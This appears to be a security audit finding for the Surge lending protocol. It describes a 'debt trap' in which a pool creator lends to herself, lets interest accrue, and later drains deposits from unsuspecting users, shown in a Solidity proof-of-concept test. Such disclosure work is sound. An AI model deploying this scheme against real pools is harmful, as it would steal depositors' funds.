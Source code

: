 Respx

high

# Pools can be primed as traps by accumulating debts in advance

## Summary
It is possible for an attacker to create a pool and borrow from themselves, accumulating large amounts of interest. Although this is interest that they owe themselves, it can be withdrawn from the Pool's loan token balance at any point.

## Vulnerability Detail
Read the comments (lines starting `//`) in the proof of concept for an account of a potential attack scenario.

Proof of concept: add to `Pool.t.sol`:
```Solidity
    function testHighDebtTrap() external {
        address alice = 0xaAaAaAaaAaAaAaaAaAAAAAAAAaaaAaAaAaaAaaAa;
        address bob = 0xbBbBBBBbbBBBbbbBbbBbbbbBBbBbbbbBbBbbBBbB;

        uint amount = 1e18;
        MockERC20 collateralToken = new MockERC20(amount, 18);
        MockERC20 loanToken = new MockERC20(amount * 2, 18);
        Pool pool = factory.deploySurgePool(
            IERC20(address(collateralToken)), 
            IERC20(address(loanToken)), 
            50e18, // _maxCollateralRatioMantissa
            0.8e18, // _surgeMantissa
            10 days, // _collateralRatioFallDuration
            1e15, // _collateralRatioRecoveryDuration
            0.1e18, // _minRateMantissa
            0.4e18, // _surgeRateMantissa
            10e18 // _maxRateMantissa 
        );

        uint alice_initial_balance = 50_000;
        loanToken.transfer(alice, alice_initial_balance);
        collateralToken.transfer(alice, 1_000);
        loanToken.transfer(bob, 10_000);

        // Alice creates the pool but does not publicise it yet.
        // Alice borrows from herself.
        vm.startPrank(alice);
        loanToken.approve(address(pool), type(uint).max);
        pool.deposit(1_000);
        collateralToken.approve(address(pool), type(uint).max);
        pool.addCollateral(alice, 40);
        pool.borrow(800);
        pool.withdraw(200);
        vm.stopPrank();

        // The interest rate goes to max. 
        emit log_named_uint("UTIL %:",lens.getUtilizationMantissa(address(pool))/1e16);
        emit log_named_uint("BORROW %:",lens.getBorrowRateMantissa(address(pool))/1e16);

        // Alice waits and accrues a huge debt that she owes herself.
        skip(52 weeks);

        emit log_named_uint("ALICE OWES:",lens.getDebtOf(address(pool),alice));

        //Alice repays her loan tokens. She can't get her collateral back: her debt is too high.
        vm.startPrank(alice);
        pool.repay(alice,800);
        //Alice also has to deposit some extra loan tokens to get the utilisation rate down.
        // Still, these tokens are not at risk
        pool.deposit(49_000);
        vm.stopPrank();

        // Now the utilisation rate is back to normal and the pool looks fine
        // unless we know about these past transactions.
        emit log_named_uint("UTIL %:",lens.getUtilizationMantissa(address(pool))/1e16);
        // Borrow rate is 15%. That might attract depositors.
        emit log_named_uint("BORROW %:",lens.getBorrowRateMantissa(address(pool))/1e16);

        // Alice publicises the pool.

        // Bob deposits some loan tokens, suspecting nothing and wishing to earn interest.
        vm.startPrank(bob);
        loanToken.approve(address(pool), type(uint).max);
        pool.deposit(10_000);
        vm.stopPrank();

        // Alice withdraws all her debt, taking Bob's loan tokens
        uint alice_before = loanToken.balanceOf(alice);
        vm.startPrank(alice);
        pool.withdraw(type(uint).max);
        vm.stopPrank();
        uint alice_after = loanToken.balanceOf(alice);

        emit log_named_uint("ALICE WITHDRAWS:",alice_after - alice_before);
        // Alice has profited almost 8000 loan tokens but lost 40 collateral tokens.
        // Even if collateral tokens are worth 100 times a loan token, Alice is still
        // well in profit.
        emit log_named_uint("ALICE PROFIT:",alice_after - alice_initial_balance);
    }
```

## Impact
As in the proof of concept scenario, users can deposit loan tokens into a seemingly healthy pool and have them immediately withdrawn by an attacker. Note that this attack is possible (and probably more effective) if the tokens are stable, well established tokens.

## Code Snippet
It is difficult to narrow this down to a particular line of code as it relates to the overall accounting of the Pool. However, the [withdraw() function](https://github.com/Surge-fi/surge-protocol-v1/blob/b7cb1dc2a2dcb4bf22c765a4222d7520843187c6/src/Pool.sol#L348-L389) relates to my recommendation below: it simply allows any user to withdraw if they are owed the tokens and the tokens are present.

## Tool used

Manual Review

## Recommendation
Consider modifying the logic of `Pool` to shield or partially shield later depositors from repaying the interest of earlier depositors. The interest paid to earlier depositors should come from borrowers. This could be implemented by keeping separate balances of interest, both owed and paid.